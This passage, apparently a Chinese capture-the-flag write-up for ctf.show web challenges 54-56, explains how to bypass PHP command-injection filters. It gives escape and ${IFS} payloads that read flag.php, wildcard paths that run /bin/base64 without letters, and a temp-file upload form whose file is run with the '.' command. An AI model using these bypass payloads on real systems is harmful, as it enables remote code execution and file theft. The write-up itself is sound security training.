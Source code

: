 他没有过滤`$`可以进行空格绕过，虽然它过滤了很多命令，我们可以进行转义符绕过

payload：

```
ta\c${IFS}fl\ag.php
ta''c${IFS}fl''ag.php
mv${IFS}fl\ag.php${IFS}a
```

### web55-56

```php
<?php
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了大小写字母，我们可以用通配符代替

姿势一：

**利用bin目录**

[bin目录知识点](https://cloud.tencent.com/developer/article/2162724?from=15425)

```
/bin/base64 flag.php 利用base64读取文件
payload：
/???/????64 ????.???
```

姿势二：

[无字母数字webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

[linux下的.使用](http://blog.sina.com.cn/s/blog_af68a2c201016nh2.html)

.点符号可以执行sh命令（不需要权限）

思路：

我们通过POST上传临时文件，然后用`.`执行临时文件的命令，达到rce的目的

这个文件一般在linux里的/tmp/php??????，最后一个字符是大写，其余是随机大小写

POST上传文件

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://8ae02e84-f005-4cd9-94e8-521eed9aebc6.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
```